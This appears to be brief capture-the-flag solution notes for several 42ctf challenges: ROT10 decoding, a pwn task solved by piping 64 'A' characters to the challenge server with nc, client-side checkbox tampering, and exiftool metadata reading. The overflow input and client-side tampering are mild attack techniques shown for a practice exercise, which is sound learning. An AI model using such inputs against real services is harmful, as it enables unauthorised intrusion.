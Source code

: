 # Ancient Crypto
```sh
# ROT10

$ wget https://www.42ctf.org/media/challenges/ancient_crypto.txt
$ cat ancient_crypto.txt | tr 'k-za-jK-ZA-J' 'a-zA-Z'
```
# My Little Pwn
```sh
$ wget _
$ tar zxvf _

# for any x -gt 40
$ (x=64; while [ $x -gt 0 ]; do echo -n "A"; x=$(( $x - 1 )); done) | nc challenges.42ctf.org 3002
```
- what does `-zxvf` mean
  - z means (un)z̲ip
  - x means ex̲tract
  - v means print filenames v̲erbose
  - f means the following argument is a f̱ilename.

# Client Side
- inspect & enable checkbox

# It's all here
- `exiftool _`

# F5 not allowed
